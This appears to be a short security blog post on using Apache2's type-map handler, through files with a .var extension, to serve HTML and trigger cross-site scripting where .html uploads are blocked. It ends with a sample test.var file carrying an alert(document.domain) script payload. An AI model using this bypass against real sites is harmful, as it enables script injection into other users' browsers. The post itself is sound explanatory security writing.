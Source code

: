 ```yaml
---
layout: post
title:  "XSS with Apache2 type-map handler"
date:   2020-11-29 22:30:00
tags:   [Apache2, XSS]
---
```


## Description
This post contains about cross site scripting with Apache2 type-map extension.
<br/>
<br/>


## Negotiation in httpd
In order to negotiate a resource, the server needs to be given information about each of the variants. This is done in one of two ways:

* Using a type map (i.e., a *.var file) which names the files containing the variants explicitly, or
* Using a 'MultiViews' search, where the server does an implicit filename pattern match and chooses from among the results.

#### Using a type-map file
A type map is a document which is associated with the handler named type-map (or, for backwards-compatibility with older httpd configurations, the MIME-type application/x-type-map). Note that to use this feature, you must have a handler set in the configuration that defines a file suffix as type-map; this is best done with
```
AddHandler type-map .var
```
(https://httpd.apache.org/docs/2.4/en/content-negotiation.html)
<br/>
<br/>


## XSS with var exntension
`AddHandler type-map .var` is applied by default in Apache2. so when you can't use `html` or `htm` extension, you can use `var` to trigger xss.

```
➜  ~ cat test.var
Content-language: en
Content-type: text/html
Body: ----foo----
<script>
alert(document.domain)
</script>
----foo----
```
